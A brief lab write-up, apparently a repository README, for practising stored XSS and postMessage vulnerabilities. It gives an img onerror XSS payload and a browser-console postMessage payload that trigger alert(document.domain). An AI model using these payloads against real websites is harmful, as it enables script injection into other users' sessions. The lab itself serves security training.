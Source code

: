 # Stored XSS and postMessage

This lab is for postMessage and xss Vulnerability.

## WriteUp

xss : <img src=z onerror=alert(document.domain)>
postMessage : 

Open instect tab then goto debugger tab and open console there    
by pressing Esc key

then type payload : window.postMessage('alert(document.domain)', '*')  
For XSS
